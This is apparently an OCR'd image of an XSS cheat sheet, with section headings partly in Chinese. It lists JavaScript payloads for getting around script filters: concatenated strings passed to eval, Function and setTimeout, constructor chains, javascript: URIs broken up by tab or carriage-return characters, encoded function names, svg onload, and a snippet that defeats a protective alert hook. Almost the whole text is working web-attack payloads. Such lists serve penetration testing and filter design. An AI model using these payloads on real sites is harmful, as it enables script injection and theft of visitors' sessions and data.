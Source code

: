 	[7].map(alert)
	[8].find(alert)
	[9].every(alert)
	[10].filter(alert)
	[11].findIndex(alert)
	[12].forEach(alert);

	prompt`${document.domain}`
	document.location='java\tscript:alert(1)'
	document.location='java\rscript:alert(1)'
	document.location='java\tscript:alert(1)'

	eval('ale'+'rt(0)');
	Function("ale"+"rt(1)")();
	new Function`al\ert\`6\``;

	constructor.constructor("aler"+"t(3)")();
	[].filter.constructor('ale'+'rt(4)')();

	top["al"+"ert"](5);
	top[8680439..toString(30)](7);
	top[/al/.source+/ert/.source](8);
	top['al\x65rt'](9);

	open('java'+'script:ale'+'rt(11)');
	location='javascript:ale'+'rt(12)';

	setTimeout`alert\u0028document.domain\u0029`;
	setTimeout('ale'+'rt(2)');
	setInterval('ale'+'rt(10)');
	Set.constructor('ale'+'rt(13)')();
	Set.constructor`al\x65rt\x2814\x29```;

	var i = document.createElement("iframe");
	i.onload = function(){
	  i.contentWindow.alert(1);
	}
	document.appendChild(i);

	// Bypassed security
	XSSObject.proxy = function (obj, name, report_function_name, exec_original) {
	      var proxy = obj[name];
	      obj[name] = function () {
	        if (exec_original) {
	          return proxy.apply(this, arguments);
	        }
	      };
	      XSSObject.lockdown(obj, name);
	  };
	XSSObject.proxy(window, 'alert', 'window.alert', false);
  ##### >
  	<svg onload=alert(1)//
  ##### 绕过<>
  	Unicode 字符 U+FF1C 和 U+FF1E
  ##### ;
  	'te' * alert('*') * 'xt';
	'te' / alert('/') / 'xt';
	'te' % alert('%') % 'xt';
	'te' - alert('-') - 'xt';
	'te' + alert('+') + 'xt';
	'te' ^ alert('^') ^ 'xt';
	'te' > alert('>') > 'xt';
	'te' < alert('<') < 'xt';
	'te' == alert('==') == 'xt';
	'te' & alert('&') & 'xt';
	'te' , alert(',') , 'xt';